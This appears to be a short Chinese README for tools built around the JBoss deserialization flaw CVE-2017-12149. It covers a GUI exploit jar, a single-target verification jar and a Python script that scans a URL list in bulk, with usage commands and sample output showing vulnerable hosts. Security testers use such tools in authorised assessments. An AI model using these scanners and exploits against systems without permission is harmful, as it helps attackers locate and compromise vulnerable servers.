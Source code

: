 # 
1.jboss反序列化_CVE-2017-12149.jar GUI
jboss-_CVE-2017-12149

#referer:https://github.com/yunxu1/jboss-_CVE-2017-12149

2.漏洞验证
verify_CVE-2017-12149.jar提供命令行模式下验证漏洞,如果漏洞存在返回特征字符串,只需要执行命令:

```shell/cmd
$ java -jar verify_CVE-2017-12149.jar http://xxx:8080

#成功返回:
vuln6581362514513155613jboss
```
#referer:https://github.com/yunxu1/jboss-_CVE-2017-12149

3.批量验证漏洞(支持http/https协议)
```shell/cmd
$ python Jboss-cve201712149-pl.py urllist.txt
```
urllist.txt-format:
http://1.1.1.1:8080
```
#成功返回:
http://192.168.1.10:8080/invoker/readonly maybe use HttpInvoker!  
http://192.168.1.10:8080 is  Vul-Jboss-cve-2017-12149! 

```
ps：py运行需要安装requests 库
pip install requests
